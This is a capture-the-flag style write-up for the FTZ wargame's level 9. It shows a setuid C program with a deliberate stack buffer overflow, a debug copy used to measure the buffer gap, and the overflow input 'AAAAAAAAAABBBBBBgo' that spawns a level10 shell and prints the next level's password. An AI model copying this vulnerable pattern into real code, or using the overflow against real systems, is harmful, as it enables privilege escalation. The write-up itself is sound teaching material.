 # Level9

## This level's goal

- BOF(Buffer OverFlow)

***

```
[level9@ftz level9]$ cat hint

다음은 /usr/bin/bof의 소스이다.
(This is /usr/bin/bof's source)

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}

이를 이용하여 level10의 권한을 얻어라.
(Use this to get level10's privilege)

[level9@ftz tmp]$ ls -l /usr/bin/bof
-rws--x---    1 level10  level9      12111  8¿ù 19  2014 /usr/bin/bof
```
you cannot debug bof file cuz level9 has only execute permission.

so, you need to make your another file and complie and debug
```
[level9@ftz tmp]$ cat bof.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

        char buf2[10];
        char buf[10];

        printf("It can be overflow : ");
        fgets(buf,40,stdin);
        
        # show the buffer memory address
        printf("&buf=0x%x, &buf2=0x%x, distance=0x000000%x / %d byte\n",buf, buf2, buf2-buf, buf2-buf);

        if ( strncmp(buf2, "go", 2) == 0 )
        {
            printf("Good Skill!\n");
            setreuid( 3010, 3010 );
            system("/bin/bash");
        }

}

[level9@ftz tmp]$ gcc -g -o bof bof.c

[level9@ftz tmp]$ ./bof
It can be overflow : AAAA
&buf=0xbffff150, &buf2=0xbffff160, distance=0x00000010 / 16 byte
```
The distance buf and buf2 is 16byte, and the dummy stack between buf and buf2 is 6byte.

So, you need to input buf(10byte) and dummy(6byte) and the key string("go") in buf2 that you can get 'bash'

I will input "AAAAAAAAAABBBBBBgo" (A:10byte+B:6byte+go)

```
[level9@ftz tmp]$ gdb bof
(gdb) disass main
0x08048493 <main+115>:  call   0x8048330 <strncmp>

(gdb) break *0x08048493
Breakpoint 1 at 0x8048493: file bof.c, line 15.

(gdb) run
Starting program: /home/level9/tmp/bof
It can be overflow : AAAAAAAAAABBBBBBgo
&buf=0xbfffe750, &buf2=0xbfffe760, distance=0x00000010 / 16 byte
Breakpoint 1, 0x08048493 in main () at bof.c:15
15              if ( strncmp(buf2, "go", 2) == 0 )

(gdb) x/s 0xbfffe750
0xbfffe750:      "AAAAAAAAAABBBBBBgo\n"

(gdb) x/s 0xbfffe760
0xbfffe760:      "go\n"

(gdb) continue
Continuing.
Good Skill!
```

```
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAABBBBBBgo
Good Skill!

[level10@ftz level9]$ my-pass
Level10 Password is "interesting to hack!".
```
